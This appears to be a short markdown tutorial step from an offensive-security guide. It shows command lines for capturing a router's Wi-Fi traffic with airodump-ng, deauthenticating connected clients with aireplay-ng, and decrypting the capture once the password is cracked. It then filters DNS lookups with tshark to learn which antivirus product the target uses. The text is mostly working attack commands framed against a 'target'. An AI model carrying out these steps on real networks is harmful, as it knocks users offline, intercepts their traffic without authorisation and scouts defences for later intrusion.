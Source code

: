 # 04 - Gather Security Endpoints

After discovering the router's radio frequency presence then start capturing the packets.

```
# airodump-ng -c <channel> --bssid "00:20:91:B4:F8:33" --essid "NullByte_Network" -w wifi-capture.cap wlan0mon
```

Depending on the router's wireless encryption algorithm you will need to deauthenticate any client that is connected to the router then perform password cracking to decrypt the packet capture.

```
# aireplay-ng -0 100 -a <bssid> mon0
```

Once you've decrypted the packet capture open packet analysis software such as, Wireshark to inspect the network traffic.

```
# airdecap-ng -b "<bssid>" -e "<network_name>" -p "<password>" wifi-capture.cap

# tshark -r wifi-capture-dec.cap -n -T fields -e dns.qry.name | grep -i "avast\|avcdn" | sort -uo subdomains.txt
```

---
## References

### Null Byte

- [Null Byte: How to Identify Antivirus Software Installed on a Target's Windows 10 PC](https://null-byte.wonderhowto.com/how-to/identify-antivirus-software-installed-targets-windows-10-pc-0198775/)